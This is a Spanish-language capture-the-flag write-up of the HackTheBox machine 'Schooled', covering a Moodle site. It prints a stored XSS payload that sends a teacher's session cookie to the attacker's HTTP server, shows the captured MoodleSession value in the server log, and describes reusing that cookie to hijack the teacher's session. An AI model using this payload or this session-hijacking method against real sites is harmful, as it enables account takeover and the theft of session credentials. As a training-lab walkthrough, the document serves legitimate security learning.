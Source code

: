 Agregamos el subdominio encontrado al /etc/hosts

```bash
❯ cat /etc/hosts
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ 
   4   │ 10.10.10.234    schooled.htb moodle.schooled.htb
```

Encuentro un exploit muy critico para moodle, pero necesitamos obtener privilegios de administrador:

![Untitled](Schooled%20f583836a391b4f8391dfd4d4effc776e/Untitled%203.png)

Puedo registrarme en esta nueva pagina y gano acceso a un moodle.

### ¿Que es Moodle?

Moodle es una herramienta de gestión de aprendizaje, o más concretamente de Learning Content Management, de distribución libre, escrita en PHP.

Investigando en la pagina, entro en el curso de matematicas y el profesor ha dejado un mensaje.

![Untitled](Schooled%20f583836a391b4f8391dfd4d4effc776e/Untitled%204.png)

# **COOKIE HIJACKING**

Esto me hace pensar que podriamos realizar un Cookie Hijacking, segun el post de Manuel Philips, va a estar checkeando nuestro perfil de MoodNet y los que no lo tengan configurado los echará del curso, podemos intentar ingresar un XSS con etiquetas html para robarle su cookie de sesion, tal y como lo explican en este [POST](https://backtrackacademy.com/articulo/xss-capturando-cookies-de-sesion)

`<script>img = new Image(); img.src = "[http://192.168.1.44/a.php?"+document.cookie;](http://192.168.1.44/a.php?%22+document.cookie;)</script>`

![Untitled](Schooled%20f583836a391b4f8391dfd4d4effc776e/Untitled%205.png)

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [06/Sep/2021 08:35:19] code 404, message File not found
10.10.10.234 - - [06/Sep/2021 08:35:19] "GET /a.php?MoodleSession=94f6buarslr57gd7pt628fodh2 HTTP/1.1" 404 -
```

Hemos interceptado la cookie de sesion del profesor, la copiamos y pegamos en la extension de Firefox `Cookie Editor`

![Untitled](Schooled%20f583836a391b4f8391dfd4d4effc776e/Untitled%206.png)
